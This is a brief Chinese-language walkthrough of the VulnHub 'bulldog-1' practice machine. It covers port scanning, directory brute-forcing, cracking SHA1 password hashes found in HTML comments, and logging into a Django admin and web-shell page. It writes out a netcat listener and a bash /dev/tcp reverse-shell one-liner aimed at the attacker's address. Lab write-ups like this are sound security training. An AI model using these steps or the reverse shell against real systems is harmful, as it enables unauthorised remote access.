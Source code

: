 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態。
DirBuster爆破目錄，發現在/dev/中的source code有提示
> <!--Need these password hashes for testing. Django's default is too complex-->
> <!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限，發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功

攻擊機:`nc -l 3333`

靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`

查看可疑user，發現bulldogadmin和django，查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory
